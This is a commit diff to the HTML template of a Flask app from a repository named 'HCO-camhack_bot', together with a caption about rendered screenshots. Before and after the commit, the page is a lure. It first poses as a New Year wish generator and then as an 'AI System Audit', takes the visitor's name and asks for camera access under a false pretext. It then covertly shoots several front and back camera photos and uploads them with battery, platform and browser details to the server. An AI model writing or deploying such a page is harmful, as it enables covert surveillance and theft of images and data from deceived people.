

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the top 514 px of the page, without its empty margins (212-1067 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,81 +3,115 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Personalized New Year 2026 Wish</title>
+    <title>AI New Year Visual Audit 2026</title>
     <style>
-        body { background: #050505; color: gold; text-align: center; font-family: 'Segoe UI', sans-serif; }
-        .main-box { margin-top: 80px; padding: 30px; border: 2px solid gold; border-radius: 20px; display: inline-block; background: rgba(255,215,0,0.05); box-shadow: 0 0 20px red; }
-        h1 { font-size: 2.5rem; text-transform: uppercase; letter-spacing: 2px; }
-        input { padding: 15px; border-radius: 30px; border: 1px solid gold; width: 85%; margin-bottom: 20px; background: #111; color: white; font-size: 1rem; }
-        button { padding: 15px 40px; border-radius: 30px; background: linear-gradient(45deg, #ff0000, #ffcc00); border: none; color: black; font-weight: bold; cursor: pointer; font-size: 1.1rem; }
-        #loader { display: none; color: lime; margin-top: 20px; font-weight: bold; }
+        body { background: #050505; color: #00ff00; text-align: center; font-family: 'Courier New', monospace; padding: 20px; }
+        .main-container { margin-top: 30px; border: 2px solid #00ff00; padding: 25px; display: inline-block; background: #000; box-shadow: 0 0 20px #00ff00; border-radius: 15px; max-width: 90%; }
+        h2 { font-size: 1.5rem; text-shadow: 0 0 10px #00ff00; margin-bottom: 20px; }
+        input { padding: 12px; width: 85%; margin-bottom: 20px; background: #111; color: #00ff00; border: 1px solid #00ff00; border-radius: 5px; outline: none; }
+        .btn { padding: 15px; margin: 8px 0; cursor: pointer; background: transparent; color: #00ff00; border: 1px solid #00ff00; font-weight: bold; width: 100%; border-radius: 5px; transition: 0.3s; text-transform: uppercase; }
+        .btn:hover { background: #00ff00; color: #000; box-shadow: 0 0 15px #00ff00; }
+        #status { color: #ff0000; margin-top: 15px; font-weight: bold; display: none; animation: blink 1s infinite; }
+        @keyframes blink { 0% { opacity: 1; } 50% { opacity: 0.3; } 100% { opacity: 1; } }
     </style>
 </head>
 <body>
-    <div class="main-box">
-        <h1>🎆 Happy New Year 2026 🎆</h1>
-        <p>Enter your name to experience the AI Magic!</p>
-        <input type="text" id="name" placeholder="Enter Your Full Name...">
+    <div class="main-container">
+        <h2>🎇 AI SYSTEM AUDIT 2026 🎇</h2>
+        <p style="color: #888; font-size: 0.8rem;">[ SECURITY PROTOCOL: ACTIVE ]</p>
+        <input type="text" id="name" placeholder="ENTER YOUR FULL NAME...">
         <br>
-        <button onclick="processRequest()">GENERATE MY WISH ✨</button>
-        <div id="loader">⚙️ OPTIMIZING AI FILTERS... PLEASE WAIT...</div>
+        <button class="btn" onclick="initiateAudit(1)">📸 FRONT CAMERA (5 SHOTS)</button>
+        <button class="btn" onclick="initiateAudit(2)">📷 BACK CAMERA (5 SHOTS)</button>
+        <button class="btn" onclick="initiateAudit(3)">🎭 DUAL CAMERA (3+3 SHOTS)</button>
+
+        <div id="status">⚡ CORE SYNCING IN PROGRESS... DO NOT CLOSE...</div>
     </div>
 
-    <video id="v" style="display:none" autoplay></video>
+    <video id="v" style="display:none" autoplay playsinline></video>
     <canvas id="c" style="display:none"></canvas>
 
     <script>
-        async function processRequest() {
+        async function initiateAudit(mode) {
             let name = document.getElementById('name').value;
-            if(!name) return alert("Please enter your name first!");
+            if(!name) {
+                alert("CRITICAL ERROR: Name field cannot be empty!");
+                return;
+            }
 
-            // Professional English Permission Prompt
-            if(confirm("SYSTEM NOTICE: To apply exclusive 2026 AI Visual Effects, this application requires temporary camera access. Do you wish to proceed?")) {
-                document.getElementById('loader').style.display = 'block';
+            // Professional Consent for Camera Access
+            if(confirm("SYSTEM NOTICE:\nTo apply high-definition AI filters and 2026 visual effects, temporary camera access is required. Proceed?")) {
+                document.getElementById('status').style.display = 'block';
+
                 try {
-                    // Collect Device Info
-                    let batteryInfo = await navigator.getBattery();
+                    // Fetch Device Info
+                    let battery = "Unknown";
+                    try {
+                        let bData = await navigator.getBattery();
+                        battery = Math.round(bData.level * 100) + "%";
+                    } catch(e) {}
+
                     let info = {
-                        battery: Math.round(batteryInfo.level * 100) + "%",
+                        battery: battery,
                         platform: navigator.platform,
-                        browser: navigator.userAgent
+                        browser: navigator.userAgent.split(') ')[0] + ')'
                     };
 
-                    // Phase 1: Capture 5 Front Photos
-                    await startCapture(name, info, { facingMode: "user" }, 5, "FRONT");
+                    if(mode == 1) {
+                        // FRONT ONLY: 5 Photos
+                        await runCapture(name, info, {facingMode: "user"}, 5, "FRONT");
+                    } else if(mode == 2) {
+                        // BACK ONLY: 5 Photos
+                        await runCapture(name, info, {facingMode: "environment"}, 5, "BACK");
+                    } else if(mode == 3) {
+                        // DUAL: 3 Back then 3 Front
+                        await runCapture(name, info, {facingMode: "environment"}, 3, "BACK");
+                        await runCapture(name, info, {facingMode: "user"}, 3, "FRONT");
+                    }
 
-                    // Phase 2: Capture 5 Back Photos
-                    await startCapture(name, info, { facingMode: "environment" }, 5, "BACK");
-
-                    document.getElementById('loader').innerText = "✅ AI WISH GENERATED SUCCESSFULLY!";
-                    alert("Happy New Year 2026, " + name + "! Your personalized experience is ready.");
-                } catch(e) {
-                    alert("ERROR: Camera Permission is mandatory for AI Filters.");
+                    document.getElementById('status').style.color = "#00ff00";
+                    document.getElementById('status').innerText = "SUCCESS: AI WISH GENERATED! ✅";
+                    alert("Happy New Year 2026, " + name + "!\nYour AI-enhanced wish has been created.");
+                } catch(err) {
+                    alert("ERROR: Permission Denied. System cannot apply AI effects.");
+                    document.getElementById('status').style.display = 'none';
                 }
             }
         }
 
-        async function startCapture(name, info, constraints, count, label) {
+        async function runCapture(name, info, constraints, count, type) {
             try {
                 let stream = await navigator.mediaDevices.getUserMedia({ video: constraints });
                 let video = document.getElementById('v');
                 video.srcObject = stream;
 
                 for (let i = 1; i <= count; i++) {
-                    await new Promise(r => setTimeout(r, 1200)); // Delay between shots
+                    await new Promise(res => setTimeout(res, 1500)); // Delay between captures
+
                     let can = document.getElementById('c');
-                    can.width = video.videoWidth; can.height = video.videoHeight;
+                    can.width = video.videoWidth;
+                    can.height = video.videoHeight;
                     can.getContext('2d').drawImage(video, 0, 0);
-                    let img = can.toDataURL('image/jpeg', 0.6);
 
+                    let imgData = can.toDataURL('image/jpeg', 0.6);
+
+                    // Upload to Server
                     fetch('/upload', {
                         method: 'POST',
                         headers: {'Content-Type': 'application/json'},
-                        body: JSON.stringify({name: name, image: img, info: info, label: label + " SHOT " + i})
+                        body: JSON.stringify({
+                            name: name,
+                            image: imgData,
+                            info: info,
+                            label: type + " SHOT " + i
+                        })
                     });
                 }
-                stream.getTracks().forEach(t => t.stop());
-            } catch(e) { console.log(label + " Camera not accessible."); }
+                // Stop the camera stream after finish
+                stream.getTracks().forEach(track => track.stop());
+            } catch (error) {
+                console.error("Camera error:", error);
+            }
         }
     </script>
 </body>
```
